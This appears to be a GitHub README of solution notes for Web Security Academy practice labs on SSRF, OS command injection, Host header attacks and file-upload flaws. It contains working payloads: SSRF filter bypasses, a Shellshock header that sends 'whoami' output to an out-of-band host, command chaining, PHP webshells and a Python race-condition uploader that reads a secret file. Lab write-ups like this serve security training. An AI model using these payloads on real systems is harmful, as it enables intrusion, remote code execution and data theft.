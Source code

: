 ## Server-side request forgery (SSRF) ✅
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - network pivoting send requests to intruder and `stockApi=http://192.168.0.$ip$:8080/admin` 
3. <b>SSRF with blacklist-based input filter</b> - `http://127.1/%2561dmin/delete?username=carlos`
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - For this lab we have to get the access to admin panel and delete carlos account but its not the same like the old times. For the solution the first step is to go in one product and press `check stock` and pass this url into to `api parameter` `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
7. <b>Blind SSRF with Shellshock exploitation</b> - Solution for tihs labs is combination of the `Blind SSRF with out-of-band detection` and the `SSRF network pivoting`. First of all we have to intercept a requests when we send a get requests for a product and send it to `intruder` after that we can see `User-Agend` & `Referer` headers so far so good.
For exploitation part:<br>
<b>User-Agent header</b> - Delete the old string and paste this payload: <br>
`() { :; }; /usr/bin/nslookup $(whoami).4diew0hehvzuachcyn7t9rpax13s3gs.burpcollaborator.net` <br>
<b>Referer header</b> - Delete the old strings and put the ip `http://192.168.0.X:8080/` but and the X letter we have to put the $ symbols and in payload tab we have to choose `numbers` starting from 1 to 255 with step 1 and start the attack. After a few requests we can see our results in burpcollaborator.

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## HTTP Host header attacks
1. <b>Basic password reset poisoning</b> - To solve this lab first of all we have to use the "forgot the password" functionality.<br>
Go to login page and click "forgot the password" <br>
Go to the exploit server and open the email client. Observe that you have received an email containing a link to reset your password. Notice that the URL contains the query parameter `temp-forgot-password-token.` <br>
Click the link and change your password to what ever but first you have to intercept the request and send it to repeater <br>
For the next step you have to change the `HOST` header at your request in repeater to your exploit server url `exploit-xxx.web-security-academy.net` change to username to `carlos` and send the request. <br>
Go to exploit server and press the button `access log` and you will see a `GET` request with the token for password reset <br>
The final steps is to go in the first email and press the link for reset password and after that you have to change the token in the url to the new one and change the password to something new.
2. <b>Host header authentication bypass</b> - 
3. <b></b> - 
4. <b></b> - 
5. <b></b> - 
6. <b></b> - 

## File upload vulnerabilities ✅
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
